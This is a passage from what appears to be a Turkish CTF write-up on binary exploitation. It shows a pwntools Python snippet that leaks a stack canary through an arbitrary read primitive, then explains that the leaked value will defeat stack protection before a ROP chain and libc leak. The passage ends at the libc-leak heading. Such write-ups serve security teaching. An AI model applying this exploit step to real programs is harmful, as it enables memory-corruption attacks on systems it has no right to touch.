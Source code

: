 ``` python
buff = int(buff, 16)
CANARY_OFFSET = buff + OFFSET

p.recvuntil("rid of your laziness: \n")
p.send(hex(CANARY_OFFSET))
p.send("\n")
p.recvuntil("?: ")
canary = p.recv(18)
log.info(b"Canary: " + canary)

```

Exploitimizin bu kısmı bize verilen arbitrary read primitive'i sayesinde stackten canary değerini okuyup bize verecektir. Bu sayede kendi payload'umuzu oluştururken bu canary değerini kullanarak Stack Canary kontrolünü geçebileceğiz. 

![canary](assets/canary.png)

Bu noktadan sonra programımız bizden ayrı bir girdi isteyecektir, bu da bizim payload'umuz olacak. Ancak daha sadece canary değerini biliyorken muhtemel bir ROP zinciri nasıl oluşturacağız? Gelin bakalım.


### LIBC Leak'i alma
